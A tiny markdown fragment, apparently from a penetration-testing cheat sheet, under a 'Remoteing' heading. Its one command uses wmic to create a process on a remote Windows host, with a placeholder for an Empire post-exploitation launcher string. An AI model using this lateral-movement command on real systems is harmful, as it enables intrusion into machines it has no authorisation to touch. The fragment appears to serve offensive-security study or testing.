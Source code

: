 ### Remoteing

```
wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"


```
